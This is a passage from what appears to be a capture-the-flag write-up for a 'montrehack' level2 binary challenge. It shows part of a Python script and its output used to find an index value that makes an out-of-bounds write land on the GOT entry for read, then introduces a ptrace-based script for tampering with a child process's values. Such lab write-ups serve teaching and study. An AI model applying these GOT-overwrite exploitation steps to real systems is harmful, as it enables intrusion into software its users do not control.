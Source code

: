 ```python
        else:
            diff = TARGET - writeaddr
            if  diff <= 0x88:
                break
            else:
                i += 1


    print "i = %08x writeaddr =  %08x diff = %d" % (i, writeaddr, diff)
    n += 1
```

The script actually executes instantly, provided that our target address is near the base address 0x0804A100 which is the case for the GOT. Here is a part of the output for `read`.

```
ekse@montrehack:~/level2$ python map_address.py
i = -0000001 writeaddr =  0804a078 diff = 104
i = 01e1e1e1 writeaddr =  0804a088 diff = 120
i = 03c3c3c2 writeaddr =  0804a010 diff = 0
i = 05a5a5a3 writeaddr =  08049f98 diff = 120
i = 07878785 writeaddr =  08049fa8 diff = 104
i = 09696967 writeaddr =  08049fb8 diff = 88
i = 0b4b4b49 writeaddr =  08049fc8 diff = 72
i = 0d2d2d2b writeaddr =  08049fd8 diff = 56
i = 0f0f0f0d writeaddr =  08049fe8 diff = 40
i = 10f0f0ef writeaddr =  08049ff8 diff = 24
i = 12d2d2d1 writeaddr =  0804a008 diff = 8
i = 14b4b4b2 writeaddr =  08049f90 diff = 128
i = 16969694 writeaddr =  08049fa0 diff = 112
i = 18787876 writeaddr =  08049fb0 diff = 96
i = 1a5a5a58 writeaddr =  08049fc0 diff = 80
i = 1c3c3c3a writeaddr =  08049fd0 diff = 64
i = 1e1e1e1c writeaddr =  08049fe0 diff = 48
i = 1ffffffe writeaddr =  08049ff0 diff = 32
i = 21e1e1e0 writeaddr =  0804a000 diff = 16
i = 23c3c3c1 writeaddr =  08049f88 diff = 136
i = 25a5a5a3 writeaddr =  08049f98 diff = 120
i = 27878785 writeaddr =  08049fa8 diff = 104
i = 29696967 writeaddr =  08049fb8 diff = 88
i = 2b4b4b49 writeaddr =  08049fc8 diff = 72
i = 2d2d2d2b writeaddr =  08049fd8 diff = 56
i = 2f0f0f0d writeaddr =  08049fe8 diff = 40
i = 30f0f0ef writeaddr =  08049ff8 diff = 24
....
```

We can see that by using an i value of 03c3c3c2 we are able to overwrite `read` directly.

##  rtvtrace.py - ptrace to my heart

I wrote a script using python-ptrace to modify the values of i and runtime that are sent in the pipe by the child process. To go faster, I actually used the Gdb implementation provided with the library which allows to easily create breakpoints and modify memory and registry values.
